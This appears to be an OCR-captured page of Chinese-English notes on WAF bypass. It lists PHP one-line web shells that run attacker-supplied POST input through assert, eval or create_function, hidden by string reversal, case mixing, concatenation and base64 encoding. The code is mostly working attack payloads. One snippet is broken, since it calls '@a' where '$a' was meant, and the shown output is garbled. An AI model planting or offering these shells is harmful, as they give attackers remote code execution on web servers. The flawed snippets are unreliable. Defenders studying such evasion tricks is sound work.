 ### waf绕过

here is a source code example for a WAF

https://blog.csdn.net/qq_29647709/article/details/81474779

```php
<?php  
$a="TR"."Es"."sA";  
$b=strtolower($a);  
$c=strrev($b);  
@$c($_POST['shell']);  
?>
    
//another
$a=base64_decode("YXNzZXJ0");  
@a($_POST['shell']);  
```

变量储存了函数名，字符串拼接、大小写混淆、字符串逆序，base64编码组合

```php
<?php  
function fun($a){  
    @eval($a);  
}  
@fun($_POST['shell']);  
?>
```

function自定义函数，然后函数来调用eval函数

More：

**create_function函数**

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo "New anonymous function: $newfunc\n";
echo $newfunc(2, M_E) . "\n";
?>
//
create_function(string $args,  string $code)
string $args 声明的函数变量部分
string $code 执行的方法代码部分，create_function() 函数会在内部执行 eval() 
```

result

```php
New anonymous function: lamvda_1
ln(2)+ln(2.7)=1.6
//使用 create_function()构造了一个lambda样式的匿名函数-lamvda_1
```

因此可以使用匿名函数create_function()然后调用
